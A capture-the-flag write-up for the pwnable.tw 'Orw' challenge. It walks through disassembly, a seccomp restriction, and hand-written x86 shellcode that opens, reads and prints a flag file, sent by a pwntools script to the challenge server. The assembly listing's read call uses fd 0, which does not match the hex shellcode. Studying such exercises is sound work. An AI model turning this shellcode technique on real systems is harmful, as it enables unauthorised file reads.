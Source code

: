 # Pwnable.tw - Orw
* Website : Pwnable.tw
* Challenge : Orw
* Writeup author : Redhung aka r3dhun9
>Contact :[Philip Chen (Facebook)](https://www.facebook.com/philip.chen.581)

## 0x01
Let's use **objdump** or **r2** to disassemble the binary first :
```asm
lea    ecx,[esp+0x4]
and    esp,0xfffffff0
push   DWORD PTR [ecx-0x4]
push   ebp
mov    ebp,esp
push   ecx
sub    esp,0x4
call   0x80484cb ; <orw_seccomp>
sub    esp,0xc
push   0x80486a0 ; "Give me your shellcode:"
call   8048380 ; <printf@plt>
add    esp,0x10
sub    esp,0x4
push   0xc8
push   0x804a060 ; Our input
push   0x0
call   8048370 ; <read@plt>
add    esp,0x10
mov    eax,0x804a060
call   eax
mov    eax,0x0
mov    ecx,DWORD PTR [ebp-0x4]
leave
lea    esp,[ecx-0x4]
ret
xchg   ax,ax
xchg   ax,ax
xchg   ax,ax
nop
```
This is a very simple challenge of shellcoding.

The program will call our input by the below assembly:

```asm
mov eax, 0x804a060
call eax
```
Weee! Let's send /bin/sh to the remote server and get shell !!!

Isn't it too easy? :satisfied: 

However, when we send /bin/sh to the program, we get a **SIGKILL** and exit.

Nooooo!!! :cry: 

## 0x02
Let's look back to the assembly:

```asm
call   0x80484cb ; <orw_seccomp>
```
Google it, and we will know the function **seccomp** is security mechanism of syscall.

In this challenge, we can only use **sys_open**, **sys_read**, **sys_write**.

Oh, I know it. We need to write the **asm** to **open** **/home/orw/flag** and **read** it and **write** to the **stdout**.

Okay, let's write the assembly and disassemble it to get the bytecode.


## 0x03
exp.asm:
```asm
section .text
    global _start

_start:
        ; open
        xor eax, eax ; set zero
        xor ebx, ebx ; set zero
        xor ecx, ecx ; set zero
        xor edx, edx ; set zero
        push ecx ; push \x00 to end the string
        push 0x67616c66 ; flag
        push 0x2f77726f ; orw/
        push 0x2f2f2f65 ; e///
        push 0x6d6f682f ; /hom
        mov ebx, esp ; store the path to ebx
        mov eax, 5 ; sys_open
        int 0x80 ;
        
        ; read
        mov ebx, 0 ; fd
        mov ecx, esp ; buffer
        mov edx, 0x30 ; size
        mov eax, 3 ; sys_read
        int 0x80 ;
        
        ; write
        mov ebx, 1 ; stdout
        mov eax, 4 ; sys_write
        int 0x80 ;
```

## 0x04
Exploit:
```python
from pwn import *

shellcode = '\x31\xC0\x31\xDB\x31\xC9\x31\xD2\x51\x68\x66\x6C\x61\x67\x68\x6F\x72\x77\x2F\x68\x65\x2F\x2F\x2F\x68\x2F\x68\x6F\x6D\x89\xE3\xB8\x05\x00\x00\x00\xCD\x80\x89\xC3\x89\xE1\xBA\x30\x00\x00\x00\xB8\x03\x00\x00\x00\xCD\x80\xBB\x01\x00\x00\x00\xB8\x04\x00\x00\x00\xCD\x80'

r = remote('chall.pwnable.tw',10001)

r.send(shellcode)

r.interactive()
```

